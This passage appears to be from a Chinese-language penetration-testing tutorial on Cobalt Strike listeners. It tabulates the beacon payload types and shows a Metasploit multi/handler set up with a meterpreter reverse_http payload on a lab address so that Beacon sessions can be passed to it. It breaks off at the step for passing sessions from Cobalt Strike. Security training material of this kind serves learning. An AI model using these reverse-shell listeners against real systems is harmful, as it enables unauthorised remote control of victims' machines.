 所有的Payload如表：

|              Payload               |                        说明                        |
| :--------------------------------: | :------------------------------------------------: |
| windows/beacon_dns/reverse_dns_txt | 使用DNS中的TXT类型进行数据传输，对目标主机进行管理 |
|  windows/beacon_dns/reverse_http   |          采用DNS的方式对目标主机进行管理           |
|  windows/beacon_http/reverse_http  |                      反向HTTP                      |
| windows/beacon_https/reverse_https |          采用SSL进行加密，有较高的隐蔽性           |
|    windows/beacon_smb/bind_pipe    |      Cobalt Strike的SMB Beacon，仅限于x64主机      |
|    windows/foreign/reverse_http    |                   会话派生给MSF                    |
|   windows/foreign/reverese_https   |                  SSL会话派生给MSF                  |
|    windows/foreign/reverse_tcp     |                  TCP会话派生给MSF                  |

##### 监听器简约说明

在Listeners中直接添加即可创建监听器，不像书上所说的那样每种监听器只能创建一个，可以创建多个。

书上这点说反了，不是说Foreign可以让MSF反弹给CS，而是如果监听器类型为Beacon，则为CS的监听器，也可以接受MSF的会话，如果为Foreign，则表示将Beacon会话反弹给MSF或者其它。

#### 监听器的创建与使用 - 会话派生

##### 创建外置监听器

创建一个名为`CS2MSF`的监听器：

![image-20220425145437544](./image-20220425145437544.png)

##### MSF启动监听

在MSF中启动监听：

```bash
msf-pro > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf-pro exploit(multi/handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf-pro exploit(multi/handler) > set LPORT 20333
LPORT => 20333
msf-pro exploit(multi/handler) > set lhost 192.168.140.133
lhost => 192.168.140.133
msf-pro exploit(multi/handler) > run

[*] Started HTTP reverse handler on http://192.168.140.133:20333

```

##### CS派生

接下来在CS中派生会话，在Beacon中输入：
